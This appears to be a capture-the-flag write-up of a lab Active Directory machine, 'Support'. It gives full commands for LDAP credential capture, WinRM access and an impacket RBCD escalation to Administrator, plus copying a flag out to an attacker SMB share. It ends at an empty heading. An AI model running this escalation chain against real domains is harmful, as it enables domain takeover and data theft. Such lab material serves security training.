```

    ███████╗██╗   ██╗██████╗ ██████╗  ██████╗ ██████╗ ████████╗
    ██╔════╝██║   ██║██╔══██╗██╔══██╗██╔═══██╗██╔══██╗╚══██╔══╝
    ███████╗██║   ██║██████╔╝██████╔╝██║   ██║██████╔╝   ██║
    ╚════██║██║   ██║██╔═══╝ ██╔═══╝ ██║   ██║██╔══██╗   ██║
    ███████║╚██████╔╝██║     ██║     ╚██████╔╝██║  ██║   ██║
    ╚══════╝ ╚═════╝ ╚═╝     ╚═╝      ╚═════╝ ╚═╝  ╚═╝   ╚═╝

    ┌──────────────────────────────────────────────────────────────────────────────┐
    │░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░│
    │░  ▄▄▄       ▄████▄  ▄▄▄█████▓ ██▓ ██▒   █▓▓█████    ▓█████▄  ██▓ ██▀███      ░│
    │░ ▒████▄    ▒██▀ ▀█  ▓  ██▒ ▓▒▓██▒▓██░   █▒▓█   ▀    ▒██▀ ██▌▓██▒▓██ ▒ ██▒    ░│
    │░ ▒██  ▀█▄  ▒▓█    ▄ ▒ ▓██░ ▒░▒██▒ ▓██  █▒░▒███      ░██   █▌▒██▒▓██ ░▄█ ▒    ░│
    │░ ░██▄▄▄▄██ ▒▓▓▄ ▄██▒░ ▓██▓ ░ ░██░  ▒██ █░░▒▓█  ▄    ░▓█▄   ▌░██░▒██▀▀█▄      ░│
    │░  ▓█   ▓██▒▒ ▓███▀ ░  ▒██▒ ░ ░██░   ▒▀█░  ░▒████▒   ░▒████▓ ░██░░██▓ ▒██▒    ░│
    │░  ▒▒   ▓▒█░░ ░▒ ▒  ░  ▒ ░░   ░▓     ░ ▐░  ░░ ▒░ ░    ▒▒▓  ▒ ░▓  ░ ▒▓ ░▒▓░    ░│
    │░   ▒   ▒▒ ░  ░  ▒       ░     ▒ ░   ░ ░░   ░ ░  ░    ░ ▒  ▒  ▒ ░  ░▒ ░ ▒░    ░│
    │░   ░   ▒   ░          ░       ▒ ░     ░░     ░       ░ ░  ░  ▒ ░  ░░   ░     ░│
    │░       ░  ░░ ░                ░        ░     ░  ░      ░     ░     ░         ░│
    │░           ░                          ░             ░                        ░│
    │░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░│
    │            E X P L O I T A T I O N   //   A C T I V E   D I R E C T O R Y    │
    └──────────────────────────────────────────────────────────────────────────────┘
```

<div align="center">


</div>

---

```
╔══════════════════════════════════════════════════════════════════════════════════╗
║  📡 ATTACK VECTORS                                                               ║
╠══════════════════════════════════════════════════════════════════════════════════╣
║  [+] LDAP Enumeration & Data Exfiltration                                        ║
║  [+] .NET Binary Reverse Engineering                                             ║
║  [+] BloodHound Attack Path Analysis                                             ║
║  [+] GenericAll Privilege Abuse                                                  ║
║  [+] Resource-Based Constrained Delegation (RBCD)                                ║
╚══════════════════════════════════════════════════════════════════════════════════╝
```

---

## 📋 TABLE OF CONTENTS

- [>_ TARGET ACQUISITION](#-target-acquisition)
- [>_ INITIAL RECONNAISSANCE](#-initial-reconnaissance)
- [>_ SERVICE ENUMERATION](#-service-enumeration)
- [>_ CREDENTIAL EXTRACTION](#-credential-extraction)
- [>_ SHELL AS SUPPORT](#-shell-as-support)
- [>_ PRIVILEGE ESCALATION // RBCD ATTACK](#-privilege-escalation--rbcd-attack)
- [>_ ROOT ACCESS OBTAINED](#-root-access-obtained)
- [>_ CREDENTIALS VAULT](#-credentials-vault)
- [>_ FLAGS & PROOF OF COMPROMISE](#-flags--proof-of-compromise)
- [>_ MITRE ATT&CK MAPPING](#-mitre-attck-mapping)

---

## >_ TARGET ACQUISITION

```
┌─────────────────────────────────────────────────────────────────────────────────┐
│  💀  T A R G E T   I N F I L T R A T I O N   P A R A M E T E R S              │
├─────────────────────────────────────────────────────────────────────────────────┤
│  IP ADDRESS........: 10.10.11.174                                               │
│  HOSTNAME..........: DC.support.htb                                             │
│  DOMAIN............: support.htb                                                │
│  OPERATING SYSTEM..: Windows Server 2022                                        │
│  DIFFICULTY........: Easy                                                       │
│  ATTACK SURFACE....: Active Directory Domain Controller                         │
└─────────────────────────────────────────────────────────────────────────────────┘
```

---

## >_ INITIAL RECONNAISSANCE

### 📡 NETWORK SCANNING // RUSTSCAN + NMAP

```bash
rustscan -a $target --ulimit 5000 -r 1-65535 -- -sCV -oA HTB-Lab-AD-SUPPORT_FULLSCAN
```

**NMAP RESULTS:**

```bash
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-11-30 04:04:53Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49676/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49688/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49693/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49715/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
```

```
┌──────────────────────────────────────────────────────────────────────┐
│  🔌 KEY FINDINGS                                                     │
├──────────────────────────────────────────────────────────────────────┤
│  [+] Kerberos (88) - Active Directory environment confirmed         │
│  [+] LDAP (389, 3268, 3269) - Directory enumeration possible         │
│  [+] SMB (445) - File shares may contain artifacts                   │
│  [+] WinRM (5985) - Remote shell if creds obtained                   │
│  [+] SMB Signing Required - Pass-the-hash may be limited             │
└──────────────────────────────────────────────────────────────────────┘
```

---

## >_ SERVICE ENUMERATION

### 💾 HOSTS FILE CONFIGURATION

```bash
sudo nxc smb $target --generate-hosts-file /etc/hosts
```

```
SMB  10.10.11.174  445  DC  [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
```

---

### 🔓 LDAP ENUMERATION // UNAUTHENTICATED

```bash
ldapsearch -H ldap://support.htb -x -s base namingcontexts
```

```
dn:
namingcontexts: DC=support,DC=htb
namingcontexts: CN=Configuration,DC=support,DC=htb
namingcontexts: CN=Schema,CN=Configuration,DC=support,DC=htb
namingcontexts: DC=DomainDnsZones,DC=support,DC=htb
namingcontexts: DC=ForestDnsZones,DC=support,DC=htb
```

**⚠️ RESULT:** Anonymous bind rejected - authentication required for deeper enumeration.

---

### 💾 SMB ENUMERATION // TCP 445

**NetExec fails to enumerate shares without auth:**



**smbclient with null session succeeds:**

```bash
smbclient -N -L //support.htb
```



**Accessing `support-tools` share:**

```bash
smbclient -N //support.htb/support-tools
smb: \> ls
smb: \> get UserInfo.exe.zip
```



**👾 ARTIFACT ACQUIRED:** `UserInfo.exe.zip` - Suspicious .NET binary discovered.

---

## >_ CREDENTIAL EXTRACTION

### 🔬 BINARY ANALYSIS // USERINFO.EXE

**Initial analysis on Windows:**

```powershell
.\UserInfo.exe
[-] At least one of -first or -last is required.

Usage: UserInfo.exe [options] [commands]

Options:
  -v|--verbose        Verbose output

Commands:
  find                Find a user
  user                Get information about a user
```

**Wireshark reveals LDAP bind attempt:**



**LDAP injection to dump usernames:**

```powershell
.\UserInfo.exe find -first '*'
```

```
raven.clifton
anderson.damian
monroe.david
cromwell.gerard
west.laura
levine.leopoldo
langley.lucy
daughtler.mabel
bardot.mary
stoll.rachelle
thomas.raphael
smith.rosario
wilson.shelby
hernandez.stanley
ford.victoria
```

---

### 📡 CREDENTIAL INTERCEPTION // MONO + WIRESHARK

**Execute with `mono` to capture cleartext LDAP credentials:**

```bash
mono ./UserInfo.exe find -first "*"
```


```
╔══════════════════════════════════════════════════════════════════════════════════╗
║  🔑 CREDENTIAL INTERCEPTED                                                       ║
╠══════════════════════════════════════════════════════════════════════════════════╣
║  USERNAME: ldap                                                                  ║
║  PASSWORD: nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz                                   ║
╚══════════════════════════════════════════════════════════════════════════════════╝
```

**Credential validation:**

```bash
nxc smb support.htb -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```

```
SMB  10.10.11.174  445  DC  [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

---

## >_ SHELL AS SUPPORT

### 🩸 BLOODHOUND DATA COLLECTION

```bash
bloodhound-ce-python -c all -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -d support.htb -ns $target --zip
```

| Flag | Purpose |
|------|---------|
| `-c all` | Collect all data (users, groups, computers, sessions, ACLs) |
| `-u ldap` | Username for authentication |
| `-p '...'` | Password |
| `-d support.htb` | Target domain |
| `-ns $target` | Nameserver IP |
| `--zip` | Compress output for import |

---

### 🔍 LDAP DEEP ENUMERATION

```bash
ldapsearch -x -H ldap://support.htb \
  -D 'ldap@support.htb' \
  -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' \
  -b "DC=support,DC=htb" | less
```

**🎯 HIGH-VALUE TARGET DISCOVERED:**

```
# support, Users, support.htb
dn: CN=support,CN=Users,DC=support,DC=htb
objectClass: user
cn: support
info: Ironside47pleasure40Watchful
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
```

```
╔══════════════════════════════════════════════════════════════════════════════════╗
║  🔑 CREDENTIAL DISCOVERED IN LDAP ATTRIBUTE                                     ║
╠══════════════════════════════════════════════════════════════════════════════════╣
║  USERNAME: support                                                               ║
║  PASSWORD: Ironside47pleasure40Watchful                                          ║
║  SOURCE:   info attribute (poor security practice)                               ║
║  ACCESS:   Remote Management Users (WinRM enabled!)                              ║
╚══════════════════════════════════════════════════════════════════════════════════╝
```

**Credential validation:**

```bash
nxc winrm support.htb -u support -p 'Ironside47pleasure40Watchful'
```

```
WINRM  10.10.11.174  5985  DC  [+] support.htb\support:Ironside47pleasure40Watchful (Pwn3d!)
```

---

### 👾 INITIAL ACCESS // EVIL-WINRM

**BloodHound analysis reveals GenericAll on DC:**





```bash
evil-winrm -i support.htb -u support -p Ironside47pleasure40Watchful
```

```powershell
*Evil-WinRM* PS C:\Users\support\Desktop> cat user.txt
HTB{********_REDACTED_********}
```

---

## >_ PRIVILEGE ESCALATION // RBCD ATTACK

### 🩸 BLOODHOUND LEGACY SETUP

```bash
sudo apt install -y neo4j
sudo neo4j start
```

**Download BloodHound from [releases](https://github.com/BloodHoundAD/BloodHound/releases):**

```bash
unzip BloodHound-linux-x64.zip
./BloodHound-linux-x64/BloodHound
```





**GenericAll abuse path identified:**



---

### 💀 RESOURCE-BASED CONSTRAINED DELEGATION

**⚠️ Windows method (PowerMad/Rubeus) fails with KDC_ERR_C_PRINCIPAL_UNKNOWN**

**✅ Linux method (Impacket) succeeds:**

**Step 1: Create malicious computer account**

```bash
impacket-addcomputer -computer-name 'ATTACKER$' -computer-pass 'P@ssw0rd123' \
  -dc-ip 10.10.11.174 'support.htb/support:Ironside47pleasure40Watchful'
```

**Step 2: Configure RBCD delegation**

```bash
impacket-rbcd -delegate-to 'DC$' -delegate-from 'ATTACKER$' \
  -dc-ip 10.10.11.174 -action write 'support.htb/support:Ironside47pleasure40Watchful'
```

**Step 3: Request impersonated service ticket**

```bash
impacket-getST -spn 'cifs/dc.support.htb' -impersonate Administrator \
  -dc-ip 10.10.11.174 'support.htb/ATTACKER$:P@ssw0rd123'
```

**Step 4: Export ticket and authenticate**

```bash
export KRB5CCNAME=Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache

impacket-psexec support.htb/administrator@dc.support.htb -k -no-pass
```



---

## >_ ROOT ACCESS OBTAINED

### 💾 FLAG EXFILTRATION VIA SMB

**Standard file read fails - SMB share required:**

```bash
sudo impacket-smbserver share . -smb2support -username pentest -password password
```

```powershell
net use \\10.10.14.7\share /user:pentest password
copy root.txt \\10.10.14.7\share\
```



---

## >_ CREDENTIALS VAULT

```
╔══════════════════════════════════════════════════════════════════════════════════════════════════════════╗
║  🔐 EXFILTRATED CREDENTIALS                                                                              ║
╠════════════╦══════════════════╦════════════════════════════════════════════╦═════════════════════════════╣
║  TYPE      ║  USERNAME        ║  PASSWORD / HASH                           ║  SOURCE                     ║
╠════════════╬══════════════════╬════════════════════════════════════════════╬═════════════════════════════╣
║  LDAP      ║  ldap            ║  nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz      ║  UserInfo.exe (Wireshark)   ║
║  Domain    ║  support         ║  Ironside47pleasure40Watchful              ║  LDAP info attribute        ║
║  Fake PC   ║  ATTACKER$       ║  P@ssw0rd123                               ║  Created for RBCD           ║
╚════════════╩══════════════════╩════════════════════════════════════════════╩═════════════════════════════╝
```

---

## >_ FLAGS & PROOF OF COMPROMISE

```
╔═══════════════════════════════════════════════════════════════════════════════════╗
║                                                                                   ║
║   ██╗   ██╗███████╗███████╗██████╗     ███████╗██╗      █████╗  ██████╗           ║
║   ██║   ██║██╔════╝██╔════╝██╔══██╗    ██╔════╝██║     ██╔══██╗██╔════╝           ║
║   ██║   ██║███████╗█████╗  ██████╔╝    █████╗  ██║     ███████║██║  ███╗          ║
║   ██║   ██║╚════██║██╔══╝  ██╔══██╗    ██╔══╝  ██║     ██╔══██║██║   ██║          ║
║   ╚██████╔╝███████║███████╗██║  ██║    ██║     ███████╗██║  ██║╚██████╔╝          ║
║    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝    ╚═╝     ╚══════╝╚═╝  ╚═╝ ╚═════╝           ║
║                                                                                   ║
║   📍 LOCATION: C:\Users\support\Desktop\user.txt                                  ║
║   🏴 FLAG: HTB{********_REDACTED_********}                                        ║
║                                                                                   ║
╚═══════════════════════════════════════════════════════════════════════════════════╝

╔═══════════════════════════════════════════════════════════════════════════════════╗
║                                                                                   ║
║   ██████╗  ██████╗  ██████╗ ████████╗    ███████╗██╗      █████╗  ██████╗         ║
║   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝    ██╔════╝██║     ██╔══██╗██╔════╝         ║
║   ██████╔╝██║   ██║██║   ██║   ██║       █████╗  ██║     ███████║██║  ███╗        ║
║   ██╔══██╗██║   ██║██║   ██║   ██║       ██╔══╝  ██║     ██╔══██║██║   ██║        ║
║   ██║  ██║╚██████╔╝╚██████╔╝   ██║       ██║     ███████╗██║  ██║╚██████╔╝        ║
║   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝       ╚═╝     ╚══════╝╚═╝  ╚═╝ ╚═════╝         ║
║                                                                                   ║
║   📍 LOCATION: C:\Users\Administrator\Desktop\root.txt                            ║
║   🏴 FLAG: HTB{********_REDACTED_********}                                        ║
║                                                                                   ║
╚═══════════════════════════════════════════════════════════════════════════════════╝
```

**Proof of Exploitation:**

